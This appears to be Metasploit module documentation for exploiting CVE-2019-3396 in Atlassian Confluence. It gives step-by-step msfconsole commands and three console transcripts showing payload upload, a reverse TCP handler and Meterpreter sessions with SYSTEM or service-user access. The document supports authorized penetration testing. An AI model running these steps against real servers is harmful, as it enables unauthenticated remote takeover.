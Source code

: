 # Description

This module exploits a Velocity Template Injection in Atlassian Confluence Widget Connector Macro before 6.14.2 to execute arbitrary code (CVE-2019-3396). No authentication is required to exploit this vulnerability.

The vulnerability exists in the Widget Connector Macro which allow inject the "\_template" from the outside for some services, such as Youtube, Viddler, DailyMotion, etc.

The module has been tested with on Atlassian Confluence 6.6.12, 6.8.2, 6.12.0 and 6.13.0 using Java, Windows and Linux meterpreter payload.

References:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-3396
https://confluence.atlassian.com/doc/confluence-security-advisory-2019-03-20-966660264.html

## Vulnerable Application
Affecting Atlassian Confluence before version 6.6.12, from version 6.7.0 before 6.12.3, from version 6.13.0 before 6.13.3 and from version 6.14.0 before 6.14.2.

## Verification Steps

- [ ] Setting up a working installation of Atlassian Confluence before 6.6.13, 6.12.3, 6.12.3 or 6.14.2.
- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/confluence_widget_connector`
- [ ] `set RHOST <IP>`
- [ ] `set RPORT <PORT>`
- [ ] `set SRVHOST <HOST_IP>`
- [ ] `check`
- [ ] You should see `The target is vulnerable`
- [ ] `exploit`
- [ ] You should get a meterpreter session.

## Options
- **TARGETURI**: Path to Atlassian Confluence installation ("/" is the default)
- **TRIGGERURL**: Url to external video service to trigger vulnerability ("https://www.youtube.com/watch?v=kxopViU98Xo" is the default)

## Scenarios
## Tested on Confluence 6.8.2 with Windows target
```
msf > use exploit/multi/http/confluence_widget_connector
msf exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf exploit(multi/http/confluence_widget_connector) > set TARGET Windows
TARGET => Windows
msf exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Windows 10
[*] target.com:8090 - Attempting to upload C:\PROGRA~1\Atlassian\Confluence\temp\gAdGh.exe
[*] target.com:8090 - Attempting to copy payload to C:\PROGRA~1\Atlassian\Confluence\temp\MRuDb.exe
[*] target.com:8090 - Attempting to execute C:\PROGRA~1\Atlassian\Confluence\temp\MRuDb.exe
[*] Sending stage (179779 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:62528) at 2019-04-11 03:13:37 +0000
[*] target.com:8090 - Waiting for exploit to complete...
[!] This exploit may require manual cleanup of 'C:\PROGRA~1\Atlassian\Confluence\temp\FFDBo.exe' on the target
[!] This exploit may require manual cleanup of 'C:\PROGRA~1\Atlassian\Confluence\temp\JLzIZ.exe' on the target
[*] target.com:8090 - Server stopped.
msf exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf exploit(multi/http/confluence_widget_connector) >
```

## Tested on Confluence 6.8.2 with Java target
```
msf > use exploit/multi/http/confluence_widget_connector
msf exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Linux
[*] target.com:8090 - Attempting to upload  /opt/atlassian/confluence/temp/EjpPf.jar
[*] target.com:8090 - Attempting to execute  /opt/atlassian/confluence/temp/EjpPf.jar
[*] Sending stage (53866 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:55690) at 2019-04-11 03:13:37 +0000
[+] target.com:8090 -Deleted /opt/atlassian/confluence/temp/EjpPf.jar
[*] target.com:8090 - Waiting for exploit to complete...
[*] target.com:8090 - Server stopped.
msf exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: confluence
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf exploit(multi/http/confluence_widget_connector) >
```

## Tested on Confluence 6.8.2 with Linux target
```
msf > use exploit/multi/http/confluence_widget_connector
msf exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Linux
[*] target.com:8090 - Attempting to upload /opt/atlassian/confluence/temp/BYHzD
[*] target.com:8090 - Attempting to copy payload to /opt/atlassian/confluence/temp/dESMnt
[*] target.com:8090 - Attempting to execute /opt/atlassian/confluence/temp/dESMnt
[*] Sending stage (985320 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:55690) at 2019-04-11 03:13:37 +0000
[+] target.com:8090 - Deleted /opt/atlassian/confluence/temp/BYHzD
[+] target.com:8090 - Deleted /opt/atlassian/confluence/temp/dESMnt
[*] target.com:8090 - Waiting for exploit to complete...
[*] target.com:8090 - Server stopped.
msf exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=1001, gid=1001, euid=1001, egid=1001
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf exploit(multi/http/confluence_widget_connector) >
```
